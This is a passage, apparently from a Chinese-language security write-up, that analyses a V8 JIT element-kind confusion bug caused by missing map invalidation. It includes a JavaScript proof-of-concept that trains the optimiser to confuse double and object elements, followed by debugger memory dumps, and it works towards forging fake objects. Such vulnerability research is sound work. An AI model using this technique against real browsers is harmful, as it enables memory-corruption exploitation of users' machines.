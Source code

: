 执行SetMaps之前，因为有`a[0] = 1.1;b[0] = 1.1;`，所以它们之前已经是`HOLEY_DOUBLE_ELEMENTS`类型

[![](https://p3.ssl.qhimg.com/t0153ed9e03c4e29128.png)](https://p3.ssl.qhimg.com/t0153ed9e03c4e29128.png)

执行之后，由于没有KillMaps，因此b仍然保留为`HOLEY_DOUBLE_ELEMENTS`类型

[![](https://p3.ssl.qhimg.com/t01cb967de84df402c6.png)](https://p3.ssl.qhimg.com/t01cb967de84df402c6.png)

如果接下来执行`b[0] = 1.1;`，按理来说是以`HOLEY_DOUBLE_ELEMENTS`的方式向elements里写了一个double值，由于它指向的对象已经变成了`HOLEY_ELEMENTS`类型，那么再次从中取元素时，double值被当成对象指针对待，因此通过控制double值，能够使得取出的值作为指针能正好指向我们可控的内存区，那么我们就可以伪造对象了。<br>
然而实际情况是，执行`b[0] = 1.1;`时，仍然是以`HOLEY_ELEMENTS`的方式写入，即将1.1包装为一个HeapNumber，然后保存指针到elements。在JIT编译的时候,末尾的两句`a[0] = `{``}`;`和`b[0] = 1.1;`不能同时出现，否则JIT编译器收集到的信息比较充分会使得漏洞利用失败，因此应该想办法让这两句的编译时期分开，由此可以加一个条件判断，这样，两句在编译时期不会同时出现。

```
function opt(a,b,f1,f2) `{`
   a[0] = 1.1;
   b[0] = 1.1;
   if (f1)
      a[0] = `{``}`;
   if (f2)
      b[0] = 1.1;
`}`

var a;

for (var i=0;i&lt;0x2000;i++) `{`
   a = Array(0);
   opt(a,a,true,false);
   a = Array(0);
   opt(a,a,false,true);
`}`

a = Array(0);
opt(a,a,true,true);
print(a[0]);
```

通过`%DebugPrint(a)`查看对象a

```
DebugPrint: 0x2aa8083dc8e1: [JSArray]
 - map: 0x2aa808303975 &lt;Map(HOLEY_ELEMENTS)&gt; [FastProperties]
 - prototype: 0x2aa8082cb529 &lt;JSArray[0]&gt;
 - elements: 0x2aa8083dc99d &lt;FixedArray[17]&gt; [HOLEY_ELEMENTS]
 - length: 1
 - properties: 0x2aa8080426dd &lt;FixedArray[0]&gt; `{`
    0x2aa808044649: [String] in ReadOnlySpace: #length: 0x2aa808242159 &lt;AccessorInfo&gt; (const accessor descriptor)
 `}`
 - elements: 0x2aa8083dc99d &lt;FixedArray[17]&gt; `{`
           0: -858993459
pwndbg&gt; dd 0x2aa8083dc99c
00002aa8083dc99c     080424a5 00000022 9999999a 3ff19999
00002aa8083dc9ac     080423a1 080423a1 080423a1 080423a1
00002aa8083dc9bc     080423a1 080423a1 080423a1 080423a1
00002aa8083dc9cc     080423a1 080423a1 080423a1 080423a1
```

